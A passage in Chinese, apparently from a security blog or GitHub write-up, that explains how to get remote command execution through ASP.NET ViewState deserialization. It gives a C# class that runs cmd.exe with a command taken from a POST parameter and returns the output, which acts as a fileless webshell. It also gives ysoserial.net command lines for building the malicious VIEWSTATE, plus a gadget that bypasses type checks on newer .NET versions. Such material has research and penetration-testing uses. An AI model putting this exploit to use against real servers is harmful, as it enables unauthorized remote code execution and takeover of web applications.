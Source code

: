 (2)借助[ysoserial.net](https://github.com/pwntester/ysoserial.net)的ActivitySurrogateSelectorFromFile实现命令执行并返回执行结果的Python代码

这里使用ysoserial.net的版本需要高于1.32，以避免ActivitySurrogateSelectorFromFile兼容性的bug

新建文件ExploitClass.cs，内容如下：

```
class E
{
    public E()
    {
        System.Web.HttpContext context = System.Web.HttpContext.Current;
        context.Server.ClearError();
        context.Response.Clear();
        try
        {
            System.Diagnostics.Process process = new System.Diagnostics.Process();
            process.StartInfo.FileName = "cmd.exe";
            string cmd = context.Request.Form["cmd"];
            process.StartInfo.Arguments = "/c " + cmd;
            process.StartInfo.RedirectStandardOutput = true;
            process.StartInfo.RedirectStandardError = true;
            process.StartInfo.UseShellExecute = false;
            process.Start();
            string output = process.StandardOutput.ReadToEnd();
            context.Response.Write(output);
        } catch (System.Exception) {}
        context.Response.Flush();
        context.Response.End();
    }
}
```

**注：**

代码引用自https://devco.re/blog/2020/03/11/play-with-dotnet-viewstate-exploit-and-create-fileless-webshell/

更多用法可参考https://github.com/pwntester/ysoserial.net/blob/master/ExploitClass/ExploitClass.cs

ysoserial.net的参数格式如下：

```
ysoserial.exe -p ViewState -g ActivitySurrogateSelectorFromFile -c "ExploitClass.cs;System.Web.dll;System.dll;" --validationalg="SHA1" --validationkey="{key}" --generator="{generator}
```

借助[ysoserial.net](https://github.com/pwntester/ysoserial.net)的ActivitySurrogateSelectorFromFile生成最终的VIEWSTATE数据后，构造POST数据包，添加名为cmd的参数，参数值为要执行的命令

高版本的.NET Framework会禁止ActivitySurrogateSelector，可借助[ysoserial.net](https://github.com/pwntester/ysoserial.net)ActivitySurrogateDisableTypeCheck进行绕过，对应的参数格式如下：

```
ysoserial.exe -p ViewState -g ActivitySurrogateDisableTypeCheck -c "ignore" --validationalg="SHA1" --validationkey="{key}" --generator="{generator}"
```
